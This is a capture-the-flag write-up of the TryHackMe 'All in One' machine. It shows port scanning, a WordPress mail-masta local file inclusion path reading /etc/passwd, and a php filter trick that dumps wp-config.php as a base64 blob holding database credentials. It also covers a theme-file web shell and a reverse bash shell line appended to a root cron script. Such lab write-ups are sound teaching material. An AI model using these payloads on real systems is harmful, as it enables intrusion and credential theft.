 ```yaml
---
title: TryHackMe All in One
date: 2020-12-21
categories: [TryHackMe]
thumbnail: /assets/img/thm/allinone/allinone.png
excerpt: We use john to crack an SSH key.
tags: [enum4linux,hydra,ssh,linpeas,john,searchsploit]
---
```


## Enumeration

### Nmap

We'll start of with running our nmap scan:

`nmap -sC -sV -T4 -p- --max-rate 10000 $IP -oN full`

![nmap](/assets/img/thm/allinone/nmap.png)

We have a few ports open:

|PORT | SERVICE | STATE|
|-----|---------|------|
|21 | vsftpd 3.0.3 | open|
|22 | OpenSSH 7.6p1 | open|
|80 | Apache httpd 2.4.29 | open|

### FTP

We tried connecting to FTP with anonymous login, there wasn't anything there and we couldn't `put` anything there. So we moved on to the website.

![ftp](/assets/img/thm/allinone/ftp.png)

### Website

`Port 80` showed a default Apache page:

![website](/assets/img/thm/allinone/defaultapache.png)

Let's go with gobuster to see what directories we can work with.

![gobuster](/assets/img/thm/allinone/gobuster.png)

We found a `/wordpress` directory, so let's go visit it.

### Wordpress

![wordpress](/assets/img/thm/allinone/wordpress.png)

We should run another gobuster against this to see what else we can work with, running gobuster against the wordpress directory:

![gobuster-2](/assets/img/thm/allinone/gobuster-worpress.png)

Since we are working with wordpress we can enumerate using `wpscan`:

![wpscan](/assets/img/thm/allinone/wpscan.png)

We have a few plugins that this utilizes. `mail-masta 1.0` and `reflex-gallery 3.1.7`

Finding exploits for `mail-masta`:

[mail-masta exploit-db](https://www.exploit-db.com/exploits/40290)

>This looks as a perfect place to try for LFI. If an attacker is lucky enough, and instead of selecting the appropriate page from the array by its name, the script directly includes the input parameter, it is possible to include arbitrary files on the server.

We can try navigating using the PoC that was provided in the `exploit-db` page using

`wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

![exploit](/assets/img/thm/allinone/mailmasta-exploit.png)

So we know we have a local file inclusion vulnerability, 

__php filter__

We can use a technique descibed in [SANS](https://www.sans.org/blog/getting-moar-value-out-of-php-local-file-include-vulnerabilities/)

>With the magic of the base64-encode PHP filter, though, the PHP interpreter will not interpret the resource as code. This allows us to see the original server-side PHP code content! 

Let's use this to grab with `wp-config.php` as this was one of the files we saw from fuzzing the wordpress directory.

`php://filter/convert.base64-encode/resource=../../../../../wp-config.php`

![phpfilter](/assets/img/thm/allinone/phpfilter.png)

```bash
echo "PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQogKg0KICogVGhlIHdwLWNvbmZpZy5waHAgY3JlYXRpb24gc2NyaXB0IHVzZXMgdGhpcyBmaWxlIGR1cmluZyB0aGUNCiAqIGluc3RhbGxhdGlvb
i4gWW91IGRvbid0IGhhdmUgdG8gdXNlIHRoZSB3ZWIgc2l0ZSwgeW91IGNhbg0KICogY29weSB0aGlzIGZpbGUgdG8gIndwLWNvbmZpZy5waHAiIGFuZCBmaWxsIGluIHRoZSB2YWx1ZXMuDQogKg0KICogVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBmb2xsb
3dpbmcgY29uZmlndXJhdGlvbnM6DQogKg0KICogKiBNeVNRTCBzZXR0aW5ncw0KICogKiBTZWNyZXQga2V5cw0KICogKiBEYXRhYmFzZSB0YWJsZSBwcmVmaXgNCiAqICogQUJTUEFUSA0KICoNCiAqIEBsaW5rIGh0dHBzOi8vd29yZHByZXNzLm9yZy9zd
XBwb3J0L2FydGljbGUvZWRpdGluZy13cC1jb25maWctcGhwLw0KICoNCiAqIEBwYWNrYWdlIFdvcmRQcmVzcw0KICovDQoNCi8vICoqIE15U1FMIHNldHRpbmdzIC0gWW91IGNhbiBnZXQgdGhpcyBpbmZvIGZyb20geW91ciB3ZWIgaG9zdCAqKiAvLw0KL
yoqIFRoZSBuYW1lIG9mIHRoZSBkYXRhYmFzZSBmb3IgV29yZFByZXNzICovDQpkZWZpbmUoICdEQl9OQU1FJywgJ3dvcmRwcmVzcycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovDQpkZWZpbmUoICdEQl9VU0VSJywgJ2VseWFuYScgK
TsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICdIQGNrbWVAMTIzJyApOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogR
GF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAqLw0KZGVmaW5lKCAnREJfQ0hBUlNFVCcsICd1dGY4bWI0JyApOw0KDQovKiogVGhlIERhdGFiYXNlIENvbGxhdGUgdHlwZS4gRG9uJ3QgY2hhbmdlIHRoaXMga
WYgaW4gZG91YnQuICovDQpkZWZpbmUoICdEQl9DT0xMQVRFJywgJycgKTsNCg0Kd29yZHByZXNzOw0KZGVmaW5lKCAnV1BfU0lURVVSTCcsICdodHRwOi8vJyAuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLicvd29yZHByZXNzJyk7DQpkZWZpbmUoICdXUF9IT
01FJywgJ2h0dHA6Ly8nIC4kX1NFUlZFUlsnSFRUUF9IT1NUJ10uJy93b3JkcHJlc3MnKTsNCg0KLyoqI0ArDQogKiBBdXRoZW50aWNhdGlvbiBVbmlxdWUgS2V5cyBhbmQgU2FsdHMuDQogKg0KICogQ2hhbmdlIHRoZXNlIHRvIGRpZmZlcmVudCB1bmlxd
WUgcGhyYXNlcyENCiAqIFlvdSBjYW4gZ2VuZXJhdGUgdGhlc2UgdXNpbmcgdGhlIHtAbGluayBodHRwczovL2FwaS53b3JkcHJlc3Mub3JnL3NlY3JldC1rZXkvMS4xL3NhbHQvIFdvcmRQcmVzcy5vcmcgc2VjcmV0LWtleSBzZXJ2aWNlfQ0KICogWW91I
GNhbiBjaGFuZ2UgdGhlc2UgYXQgYW55IHBvaW50IGluIHRpbWUgdG8gaW52YWxpZGF0ZSBhbGwgZXhpc3RpbmcgY29va2llcy4gVGhpcyB3aWxsIGZvcmNlIGFsbCB1c2VycyB0byBoYXZlIHRvIGxvZyBpbiBhZ2Fpbi4NCiAqDQogKiBAc2luY2UgMi42L
jANCiAqLw0KZGVmaW5lKCAnQVVUSF9LRVknLCAgICAgICAgICd6a1klbSVSRlliOnUsL2xxLWlafjhmakVOZElhU2I9Xms8M1pyLzBEaUxacVB4enxBdXFsaTZsWi05RFJhZ0pQJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfS0VZJywgICdpQVlhazxfJ
n52OW8re2JAUlBSNjJSOSBUeS0gNlUteUg1YmFVRHs7bmRTaUNbXXFvc3hTQHNjdSZTKWQkSFtUJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX0tFWScsICAgICdhUGRfKnNCZj1adWMrK2FdNVZnOT1QfnUwM1EsenZwW2VVZS99KUQ9Ok55aFVZe0tYUl10N
300MlVwa1tyNz9zJyApOw0KZGVmaW5lKCAnTk9OQ0VfS0VZJywgICAgICAgICdAaTtUKHt4Vi9mdkUhcyteZGU3ZTRMWDN9TlRAIGo7YjRbejNfZkZKYmJXKG5vIDNPN0ZAc3gwIW95KE9gaCNNJyApOw0KZGVmaW5lKCAnQVVUSF9TQUxUJywgICAgICAgI
CdCIEFUQGk" | base64 -d
```

__wp-config.php__

Once decoded, we were able to see the contents of `wp-config.php`, this contained a few credentials we can try to either use with SSH or to login through `wp-admin`.

```php
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', '**********' );
```

SSH didn't work, so let's move onto `wp-admin`

![admin](/assets/img/thm/allinone/wpadmin.png)

![admindash](/assets/img/thm/allinone/admindash.png)

## Getting a shell

We can edit the `functions.php` to get our shell, that way all we have to do is hit the upload button and we get our shell immediately.

![upload](/assets/img/thm/allinone/uploadshell.png)

![shell](/assets/img/thm/allinone/shell.png)

We can navigate to `/dev/shm` or anyother world writable directory to upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

Running `linpeas` we see we have a cronjob runnning something called `script.sh` that's in `/var/backups`

![cron](/assets/img/thm/allinone/cron.png)

Looking at what sort of permissions `script.sh` has, we can see it is world read/write/executable, it also gets ran as root.

![script](/assets/img/thm/allinone/scriptperms.png)

So let's append our reverse bash shell to it.

`echo 'bash -i >& /dev/tcp/$LHOST/$PORT 0>&1' >> script.sh`

![script2](/assets/img/thm/allinone/editscript.png)

All we have to do is set up another netcat listener and wait little for the cronjob to execute.

![root](/assets/img/thm/allinone/root.png)

__Note__: flags are base64 encoded

